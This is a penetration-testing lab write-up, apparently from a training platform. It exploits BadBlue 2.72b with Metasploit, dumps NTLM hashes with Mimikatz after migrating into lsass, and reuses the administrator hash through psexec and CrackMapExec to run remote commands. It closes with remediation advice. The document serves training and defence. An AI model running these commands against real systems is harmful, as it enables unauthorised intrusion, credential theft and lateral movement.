










# Pass-The-Hash Attacks

**Classification:** Assessment Methodologies / Vulnerability Assessment<br>
**Target:** 10.2.28.132 (ATTACKDEFENSE - Windows 10 / 2016+ Build 17763 x64)<br>
**Attacker:** 10.10.5.2

## 1. Executive Summary

Starting from a **BadBlue 2.72b** buffer overflow we obtain a Meterpreter session,
elevate to **SYSTEM** by migrating into `lsass`, and dump the local NTLM hashes with the
**Kiwi/Mimikatz** extension. We then demonstrate **pass-the-hash**: reusing the
administrator's NTLM hash (without ever cracking it) to authenticate and execute code with
Metasploit's `psexec` module and with **CrackMapExec**.

## 2. Initial Foothold (BadBlue)

In MSF Console we search for the BadBlue exploit and configure it.

```bash
search badblue
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.28.132
```



```bash
exploit
```

A Meterpreter session is opened.



## 3. Privilege Escalation

We find the PID of `lsass` and migrate into it, which gives us SYSTEM privileges.

```bash
pgrep lsass
migrate 780
getuid
# NT AUTHORITY\SYSTEM
```



## 4. Dumping NTLM Hashes

We load the **Kiwi** (Mimikatz) extension and dump the local SAM accounts and their hashes.

```bash
load kiwi
lsa_dump_sam
```

The administrator NTLM hash is recovered:
`Administrator` → `e3c61a68f1b89ee6c8ba9507378dc88d`.



## 5. Pass-The-Hash with psexec

With the administrator hash we configure the `psexec` module (no password needed, just the
hash).

```bash
use exploit/windows/smb/psexec
set LPORT 4422
set RHOSTS 10.2.28.132
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
```



If the payload runs but no session is created, we set the correct target (`Native upload`)
and re-run.

```bash
set target Native\ upload
exploit
```

The payload is uploaded and executed, opening a new Meterpreter session.



```bash
sysinfo
getuid
# NT AUTHORITY\SYSTEM
```



## 6. Pass-The-Hash with CrackMapExec

CrackMapExec can also authenticate with the hash. A `Pwn3d!` result means administrative
access.

```bash
crackmapexec smb 10.2.28.132 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d"
```



With the `-x` flag we can run commands remotely.

```bash
crackmapexec smb 10.2.28.132 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "ipconfig"
```



```bash
crackmapexec smb 10.2.28.132 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "net user"
```



## 7. Remediation Recommendations

1. **Enforce unique local admin passwords** (e.g. Microsoft LAPS) so a single stolen hash
   cannot be reused across machines.
2. **Restrict and monitor privileged logons:** limit where administrator accounts can
   authenticate and watch for lateral SMB/psexec activity.
3. **Enable protections against credential theft:** Credential Guard, LSA protection
   (RunAsPPL) and restricting SeDebugPrivilege hinder Mimikatz-style dumping.
4. **Patch the entry point:** remove/upgrade vulnerable software such as BadBlue that
   provides the initial foothold.
